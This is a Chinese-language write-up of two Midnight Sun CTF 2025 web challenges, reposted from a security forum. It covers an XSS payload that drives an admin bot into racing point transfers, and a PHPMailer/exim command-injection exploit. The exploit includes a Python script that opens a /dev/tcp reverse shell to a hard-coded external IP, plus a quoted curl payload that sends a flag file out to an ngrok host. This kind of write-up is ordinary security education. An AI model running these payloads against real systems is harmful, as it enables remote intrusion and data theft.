# Midnight-Sun-CTF-2025-WEB-先知社区

> **来源**: https://xz.aliyun.com/news/18055  
> **文章ID**: 18055

---

## **Hackchan**

```
Hackchan is your friendly neighborhood grocery store, with an exclusive loyalty program where points can be redeemed for amazing rewards. The system is said to be bulletproof, but there are whispers of a vulnerability that would allow one into the Billionaire Club by obtaining one billion loyalty points in their Hackchan account.
```

### Condition of getting flag

在views.py中看见了得到flag的条件

```
            case 'delete-account-and-get-flag':
                if current_user.balance >= 999_999_999 and not current_user.is_manager and not current_user.is_admin:
                    current_user.remove()
                    db.session.commit()
                    flash('midnight{********REDACTED********}', 'success')
                return redirect('/')
            case _:
                if current_user.balance >= 999_999_999 and not current_user.is_manager and not current_user.is_admin:
                    context['show_flag_button'] = True
                template = "authenticated_template.html"
```

即当当前用户的balance大于999\_999\_999的时候就可以得到flag，所以要看一下逻辑。

### bot处理流程

在bot.js中处理problem中的url的过程，这个地方就可以构造路由让admin去访问。

```
      for (const word of problemWords) {
        const urlPattern = /^http:\/\/web:8000\//;
        if (urlPattern.test(word) && word !== homeOrigin) {
          const currentProblem = page.url()
          await page.goto(word);
          await page.waitForTimeout(2000);
          await page.goto(currentProblem);
        }
      }
```

然后和balance有关的函数只有

```
def send_transaction():
    with app.app_context():
        confirmed_transactions = Transaction.query.filter(Transaction.status == 'confirmed').all()

        for transaction in confirmed_transactions:
            sender = User.query.get(transaction.sender_id)
            recipient = User.query.get(transaction.recipient_id)
            if sender and recipient:
                if sender.balance >= transaction.amount:
                    transaction.status = 'sent'
                    if not sender.is_manager:
                        sender.balance -= transaction.amount
                    recipient.balance += transaction.amount
                else:
                    transaction.status = 'rejected'
        db.session.commit()
```

然后我们现在要找到一个地方去得到balance，于是翻看源码  
这里用了TF-IDF，将question转换为了数值向量

```
tfidf_vectorizer = TfidfVectorizer()
faq_questions = [item['question'] for item in faq_data]
tfidf_matrix = tfidf_vectorizer.fit_transform(faq_questions)
```

然后我们主要看到处理fac这里。

```
            case 'faq':
                question = request.args.get('question')
                if question:
                    user_question_tfidf = tfidf_vectorizer.transform([question])
                    cosine_similarities = linear_kernel(user_question_tfidf, tfidf_matrix).flatten()
                    most_similar_index = cosine_similarities.argsort()[-1]
                    label = faq_data[most_similar_index]['label']
                    listdir = sorted(os.listdir('templates/faq/answers'))
                    for file in listdir:
                        if label in file:
                            template = '/faq/answers/' + file
                            context['question'] = question
                            break
                    else:
                        flash('Answer not found, please contact us', 'danger')
                        template = 'faq/faq.html'
                else:
                    template = 'faq/faq.html'
```

所以我们只需要找一个label匹配到我们的.swp文件（题目故意留的，可以嵌入xss，but我利用vim -r 看不出来是什么问题，所以等wp吧，再补上）  
  
因为是`.`开头的文件，所以在文件系统里面会放在最前面，再回顾我们的fac内容，这里只贴出部分  
  
我们只需要匹配其中的media即可，他就会将.swap文件渲染出来。  
所以我们只需要让`action=fac&question={text}`的text内容与对应的question对应上即可  
  
playload:  
`https://hackchan-mjk2mpay.ctf.pro/?action=faq&question=How can I get in touch with your PR department for collaboration?<script>alert('hacked by dt')</script>`  
  
即可触发xss，那么接下来就很简单了，记得我们前面的bot吗，只需要控制这个xss让bot给我们转钱即可。  
所以让bot访问：  
`http://web:8000/?action=create-transaction9`然后post过去  
`recipient=deletee&amount=9999999999`  
  
但是一次最多只能转10块钱，所以还得看一下逻辑，然后注意到处理的时候是分两块的  
  
看到这里`confirmed_transactions = Transaction.query.filter(Transaction.status == 'confirmed').all()`所以我们可以在`confirm_transaction`之后的间隙将订单的status更改一次为confirmed即可完成转账，也就是race condition  
最后的playload：

```
fetch('http://web:8000/?action=create-transaction', {
  'headers': {
    "content-type": 'application/x-www-form-urlencoded'
  },
  'method': 'POST',
  'body': 'recipient=ADD_USER_HERE&amount=1',
  'credentials': 'include'
}).then(html => {
  return html.text();
}).then(html => {
  const parser = new DOMParser();
  const doc = parser.parseFromString(html, 'text/html');
  return [...doc.querySelectorAll('table > tbody > tr > td:first-child')];
})
.then(canidates => {
  return canidates.map(function(item) {
    return item.innerText;
  });
})
.then(canidates => {
  return canidates.map(function(item) {
    return parseInt(item, 10);
  });
})
.then(canidates => {
  return 1 + Math.max(...canidates);
}).then(tid => {
  return tid.toString();
}).then(tid => {
  fetch('http://web:8000/?action=create-transaction', {
    'headers': {
      'content-type': 'application/x-www-form-urlencoded',
    },
    'method': 'POST',
    'body': 'recipient=ADD_USER_HERE&amount=1',
    'credentials': 'include'
  }).then(function(resp) {
    setTimeout(() => {
      fetch('http://web:8000/?action=create-transaction', {
        'headers': {
          'content-type': 'application/x-www-form-urlencoded',
        },
        'method': 'POST',
        'body': 'recipient=ADD_USER_HERE&amount=999999989&transaction_id=' + tid,
        'credentials': 'include'
      });
    }, 20);
  });
});
```

用的``注意下编码问题即可，最后再次感谢HighDex  
用英文说一遍:

```
I’m very grateful to HighDex who get firstplace at this competition, Congratulations!
```

  


## **Uselesscorp**

扫了一下目录  
  
看到`class.phpmailer.php`的日期找到对应版本为v5.2.17  
<https://github.com/PHPMailer/PHPMailer/blob/v5.2.17/class.phpmailer.php>  
打CVE 2016-10033,exp: <https://github.com/opsxcq/exploit-CVE-2016-10033>  
但是发现打不通，说明环境可能和原本的不大一样。  
原来是在这里:  
  
debian系统一般会用到exim4的MTA，所以我们就去看doc:  
<https://www.exim.org/exim-html-current/doc/html/spec_html/ch-string_expansions.html>  
发现了如下几个好玩的东西:

* ${readfile{}{}}可以读取文件然后将其中的换行符替换掉
* ${readsocket{...}{...}{...}{...}{...}}向本地或远程 socket 发送请求字符串，读取响应数据，并将其插入到当前字符串中。适用于与其他服务通信，如 Redis、Python 微服务、SMTP、HTTP 接口等。
* {run,preexpand{option}}运行一个外部命令，将其标准输出作为变量 `$value`，并依据返回码决定使用哪个返回值。

所以我们可以构造一下sendmail的请求:  
注意一下这里的email的格式，遵循RFC 3696,我们用来闭合前面的引号然后用-Ov来让后面的语句无效,这个是HighDex师傅告诉我的，基本上都适用，我们也可以用一个极短的例如`@d`

```
name=delete&email="a" -be playload -Ov="@q.com&subject=1&message=Pwned&submit=submit
```

于是最后的exp：

```
import requests
import base64

URL = "http://192.168.174.128"

Rev_Ip = "101.132.122.178"
Rev_Port = "9999"
sess = requests.Session()

def send_mail(mail: str):
    data = {
        "name" : "delete",
        "email" : mail,
        "subject" : "1",
        "message" : "Pwned!",
        "submit" : "submit"
    }
    sess.post(URL + '/index.php', data=data)
    print(f"send mail:{mail}")


def run_exp(cmd: str):
    base64_cmd = base64.b64encode(cmd.encode()).decode()
    exploit = "${run,preexpand{${base64d:"+base64_cmd+"}}}"
    print(f"Your playload is {exploit}, now I send it to the server!
")
    send_mail('"a\" -be ' +  exploit + ' "@d')


get_shell = f"/bin/bash -i >& /dev/tcp/{Rev_Ip}/{Rev_Port} 0>&1"

run_exp(f"/bin/sh -c "echo -n '{get_shell}' >> /tmp/delete"")
    
run_exp("/bin/bash /tmp/delete")

run_exp("/bin/rm /tmp/delete")
```



其他playload（官方给的）:

```
curl -X POST https://useless-94tszh4z.ctf.pro -d 'name=a' -d 'subject=a' -d 'message=a' -d 'submit=submit' -d 'email="" -be ${readsocket{inet:0.tcp.ap.ngrok.io:19066}{${readfile{/flag.txt}}}} "@x'
```

不过思路也是差不多的，只是一个直接read了我是弹shell
